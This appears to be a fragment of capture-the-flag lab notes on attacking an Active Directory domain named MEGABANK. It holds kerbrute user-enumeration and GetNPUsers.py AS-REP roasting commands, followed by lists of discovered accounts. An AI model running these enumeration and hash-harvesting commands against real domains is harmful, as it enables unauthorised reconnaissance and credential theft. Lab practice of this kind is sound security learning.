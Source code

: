 
Valid Users
```
kerbrute userenum -d MEGABANK --dc 10.10.10.172 valid_user.txt -t 100
```
![[Pasted image 20240503124645.png]]

```
svc-bexec@MEGABANK
svc-ata@MEGABANK
roleary@MEGABANK
SABatchJobs@MEGABANK
svc-netapp@MEGABANK
smorgan@MEGABANK
administrator@MEGABANK
```


```
GetNPUsers.py MEGABANK/ -usersfile valid_user.txt -format john -dc-ip 10.10.10.172
```
![[Pasted image 20240503124918.png]]

```
smorgan
Administrator
krbtgt
AAD_987d7f2f57d2
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
Guest
Administrator
AAD_987d7f2f57d2
mhope
dgalanos
Administrator
roleary
```

Valid Users
```
|   |
|---|
|Administrator@MEGABANK|
|svc-bexec@MEGABANK|
|roleary@MEGABANK|
|SABatchJobs@MEGABANK|
|mhope@MEGABANK|
|smorgan@MEGABANK|
|svc-netapp@MEGABANK|
|AAD_987d7f2f57d2@MEGABANK|
|SABatchJobs@MEGABANK|
|dgalanos@MEGABANK|
|svc-ata@MEGABANK|
```